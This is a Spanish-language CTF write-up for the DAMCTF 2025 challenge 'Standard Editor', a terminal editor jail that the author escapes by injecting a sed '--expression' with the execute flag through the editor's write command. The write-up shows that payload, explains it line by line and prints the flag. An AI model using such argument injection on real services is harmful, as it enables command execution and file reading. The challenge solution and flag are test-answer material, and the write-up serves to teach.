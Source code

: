 ```yaml
---
title: Standard Editor - DAMCTF2025
author: Kesero
description: Reto basado escapar de un programa de apuntes por terminal mediante command injections.
date: 2025-05-11 10:00:00 +0000
categories: [Writeups Competiciones Internacionales, Miscelánea]
tags: [Misc, Writeups, Dificultad - Media, Misc - Jail]
pin: false
math: true
mermaid: true
image:
  path: https://raw.githubusercontent.com/k3sero/Blog_Content/refs/heads/main/Competiciones_Internacionales_Writeups/2025/Damctf2025/Misc/Standard-Editor/img/2.png
  lqip: 
  alt: 
comments: true
---
```

Autor del reto: `evan`

Dificultad: <font color=orange>Media</font>

## Enunciado

"Joel Fagliano has nothing on me. (flag is all caps)"

## Archivos

Este reto nos da el siguiente archivo.

- `conexión por netcat` : Contiene la conexión directa con el servidor del reto.

Archivos utilizados [aquí](https://github.com/k3sero/Blog_Content/tree/main/Competiciones_Internacionales_Writeups/2025/Damctf2025/Misc/Standard-Editor).

## Analizando el reto

Al conectarnos por netcat podemos ver el siguiente mensaje.

```
    ┌──(kesero㉿kali)-[~]
    └─$ nc standard-editor.chals.damctf.xyz 6733

    [Sun May 11 20:22:15 UTC 2025] Welcome, editor!
    Feel free to write in this temporary scratch space.
    All data will be deleted when you're done, but files will
    first be printed to stdout in case you want to keep them.
    
    a
    ?
    b
    ?
    c
    ?

```

## Solver

En este reto tendremos que realizar un command injection a través del editor simulado que nos dan en el reto. Para ello como siempre en estos casos, tendremos que probar, probar y probar todo lo posible para observar cómo se comporta el servidor.

La primera suposición que podemos realizar es que el editor se trata de un editor de línea de comandos personalizados emulando algo parecido a el programa `ed`.

Por ejemplo, si queremos añadir líneas en este tipo de editores, con el comando `a` significa `append` y podemos añadir líneas al editor. Además si queremos finalizar la entrada de líneas, lo realizaremos mediante `.`. Ocurre de forma parecida con el comando `w` el cual nos permite ejecutar comandos.

Además, realizando pruebas podemos observar que las expresiones regulares están permitidas ya que observaremos que estamos habilitados para evaluar expresiones de sustitución.

Después de muchos intentos damos con el código para leer la flag. 

```
a
.
w --expression=s@.*@cd\ ..\;\ cd\ ..\;\ cat\ flag@e
a
bruh
.
w f
q
```
Vamos a explicarlo línea por línea.

1. `a` empezamos a añadir líneas.
2. `.` finalizamos la entrada de líneas
3. `w --expression=s@.*@cd\ ..\;\ cd\ ..\;\ cat\ flag@e`. Para comenzar, `w` permite escribir, `--expression=` nos permite evaluar y ejecuar a continuación. Por otro lado dentro de la expresión tenemos `s@.*@cd\ ..\;\ cd\ ..\;\ cat\ flag@e`. En la cual `s@.*@...@e` es una expresión de sustitución de `sed` con la flag `e`, que ejecuta el resultado como un comando de sistema.
Posteriormente, `.*` fuerza a capturar cualquier línea dentro del archivo. Acto seguido se sustituye por `cd ..; cd ..; cat flag` que cambia dos niveles arriba en el sistema de archivos y luego ejecuta `cat flag`

4. `a, bruh, .` Con esta combinación forzamos a que se ejecute el procesamiento de la expresión anterior.

5. `w f` Finalmente grabamos el contenido con `f` y guardamos el contenido. De esta manera, forzamos al sistema que interprete la expresión con ejecución.

6. `q` Por último, salimos del programa.

Realizando los pasos anteriores, obtenemos la flag.

```
  ┌──(kesero㉿kali)-[~]
  └─$ nc standard-editor.chals.damctf.xyz 6733

  [Mon May 12 16:19:16 UTC 2025] Welcome, editor!
  Feel free to write in this temporary scratch space.
  All data will be deleted when you're done, but files will
  first be printed to stdout in case you want to keep them.
  a
  .
  w --expression=s@.*@cd\ ..\;\ 
  cd\ ..\;\ cat\ flag@e
  0
  a
  bruh
  .
  w f
  5
  q
  sed: can't read s@vi\|vim\|emacs\|nano\|vscode\|notepad[+][+]\|code\|zed\|atom\|word\|office\|docs\|o365\|copilot\|cursor@ed(1)@ig: No such file or directory
  dam{is_it_w31rd_that_i_u53_ed(1)_4_fun?}
```

## Flag
`dam{is_it_w31rd_that_i_u53_ed(1)_4_fun?}`